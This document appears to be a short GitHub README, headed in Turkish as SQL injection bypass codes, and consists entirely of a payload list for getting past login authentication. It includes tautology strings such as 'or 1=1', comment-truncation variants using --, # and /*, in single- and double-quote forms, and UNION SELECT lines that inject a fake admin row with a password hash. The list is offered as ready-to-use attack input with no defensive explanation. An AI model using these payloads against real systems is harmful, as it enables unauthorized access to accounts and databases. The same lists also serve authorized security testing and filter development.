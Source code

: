 # SQLInjectionBypassPayloads
Sql İnjection İçin Bypass Kodları

or 1=1<br>
or 1=1--<br>
or 1=1#<br>
or 1=1/*<br>
admin' --<br>
admin' #<br>
admin'/*<br>
admin' or '1'='1<br>
admin' or '1'='1'--<br>
admin' or '1'='1'#<br>
admin' or '1'='1'/*<br>
admin'or 1=1 or ''='<br>
admin' or 1=1<br>
admin' or 1=1--<br>
admin' or 1=1#<br>
admin' or 1=1/*<br>
admin') or ('1'='1<br>
admin') or ('1'='1'--<br>
admin') or ('1'='1'#<br>
admin') or ('1'='1'/*<br>
admin') or '1'='1<br>
admin') or '1'='1'--<br>
admin') or '1'='1'#<br>
admin') or '1'='1'/*<br>
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
<br>admin" --<br>
admin" #<br>
admin"/*<br>
admin" or "1"="1<br>
admin" or "1"="1"--<br>
admin" or "1"="1"#<br>
admin" or "1"="1"/*<br>
admin"or 1=1 or ""="<br>
admin" or 1=1<br>
admin" or 1=1--<br>
admin" or 1=1#<br>
admin" or 1=1/*<br>
admin") or ("1"="1<br>
admin") or ("1"="1"--<br>
admin") or ("1"="1"#<br>
admin") or ("1"="1"/*<br>
admin") or "1"="1<br>
admin") or "1"="1"--<br>
admin") or "1"="1"#<br>
admin") or "1"="1"/*<br>
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055

